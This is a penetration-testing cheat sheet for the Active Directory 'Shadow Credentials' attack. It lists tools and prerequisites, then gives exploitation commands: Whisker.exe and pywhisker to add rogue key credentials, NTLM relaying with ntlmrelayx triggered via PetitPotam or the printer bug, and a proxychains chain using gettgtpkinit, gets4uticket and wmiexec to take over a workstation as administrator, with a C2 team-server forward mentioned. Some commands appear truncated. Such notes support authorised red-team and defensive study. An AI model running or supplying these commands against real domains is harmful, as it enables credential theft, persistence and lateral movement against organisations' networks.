 # Shadow Credentials

## Tools: Whisker https://github.com/eladshamir/Whisker , pyWhisker https://github.com/ShutdownRepo/pywhisker , ShadowSpray https://github.com/Dec0ne/ShadowSpray/

### Add Key Credentials to the attribute msDS-KeyCredentialLink of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

## WARNING! User objects can't edit their own msDS-KeyCredentialLink attribute while computer objects can. Computer objects can edit their own msDS-KeyCredentialLink attribute but can only add a KeyCredential if none already exists

## Requirements

#### 1) Domain Controller on (at least) Windows Server 2016

#### 2) Domain must have Active Directory Certificate Services and Certificate Authority configured

#### 3) PKINIT Kerberos authentication

#### 4) An account with the delegated rights to write to the msDS-KeyCredentialLink attribute of the target object

## Exploitation

## Windows

#### 1) # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.

 - Whisker.exe list /target:computername$

#### 2) # Generates a public-private key pair and adds a new key credential to the target object.

 - Whisker.exe add /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1

 - Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"

## Linux

 - python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"

## Scenarios:

### Scenario 1: Shadow Credential relaying

#### 1) Trigger an NTLM authentication from DC01 (PetitPotam)

#### 2) Relay it to DC02 (ntlmrelayx)

#### 3) Edit DC01 's attribute to create a Kerberos PKINIT pre-authentication backdoor (pywhisker)

### Alternatively : 

 - ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'

### Scenario 2: Workstation Takeover with RBCD

### Only for C2: Add Reverse Port Forward from 8081 to Team Server 81

#### 1) Set up ntlmrelayx to relay authentication from target workstation to DC

 - proxychains python3 ntlmrelayx.py -t ldaps://dc1.ez.lab --shadow-credentials --shadow-credentials

#### 2) Execute printer bug to trigger authentication from target workstation

 - proxychains python3 printerbug.py ez.lab/matt:Password1\!@ws2.ez.lab ws1@8081/

#### 3) Get a TGT using the newly acquired certificate via PKINIT

 - proxychains python3 gettgtpkinit.py ez.lab/ws2\$ ws2.ccache -cert-pfx /opt/impacket/

#### 4) Get a ST (service ticket) for the target account

 - proxychains python3 gets4uticket.py kerberos+ccache://ez.lab\\ws2\$:ws2.ccache@dc1.

#### 5) Utilize the ST for future activity

 - export KRB5CCNAME=/opt/pkinittools/administrator_ws2.ccache

 - proxychains python3 wmiexec.py -k -no-pass ez.lab/administrator@ws2.ez.lab

